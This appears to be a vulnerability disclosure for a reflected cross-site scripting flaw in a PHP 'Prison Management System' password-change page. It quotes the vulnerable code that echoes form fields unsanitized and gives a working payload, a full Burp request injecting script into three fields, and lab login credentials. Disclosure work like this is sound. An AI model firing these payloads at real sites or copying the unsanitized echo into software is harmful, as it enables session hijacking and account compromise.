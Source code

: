 # Prison Management System
## XSS on `/Employee/changepassword.php `

### Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/Account/Login.php
releaseme@gmail.com
escobar2012
```

### Affected Page:

```
/Employee/changepassword.php
```

The parameter  `txtold_password`、`txtnew_password` and `txtconfirm_password` are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

```php
# /Employee/changepassword.php
167 <input type="password" name="txtold_password" value="<?php if (isset($_POST['txtold_password']))?><?php echo $_POST['txtold_password']; ?>" placeholder="Enter Old Password" class="form-control" required="">
171 <input type="password" name="txtnew_password" value="<?php if (isset($_POST['txtnew_password']))?><?php echo $_POST['txtnew_password']; ?>" placeholder="Enter New Password" class="form-control" required="">
175 <input type="password" name="txtconfirm_password" value="<?php if (isset($_POST['txtconfirm_password']))?><?php echo $_POST['txtconfirm_password']; ?>" placeholder="Confirm New Password" class="form-control" required="">
```

### Proof of Concept:

Payload:

```
"><svg/onload=alert``>
```

Burp Request:

```
POST /Employee/changepassword.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 144
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/Employee/changepassword.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=re6pj5dm375a34vsuggjn5p4j8
Connection: close

txtold_password=1"><svg/onload=alert`111`>&txtnew_password=2"><svg/onload=alert`222`>&txtconfirm_password=3"><svg/onload=alert`333`>&btnchange=1
```



### Screenshot

![image-20240506135148327](./screenshot/image-20240506135148327.png)

![image-20240506135106046](./screenshot/image-20240506135106046.png)

![image-20240506135126428](./screenshot/image-20240506135126428.png)

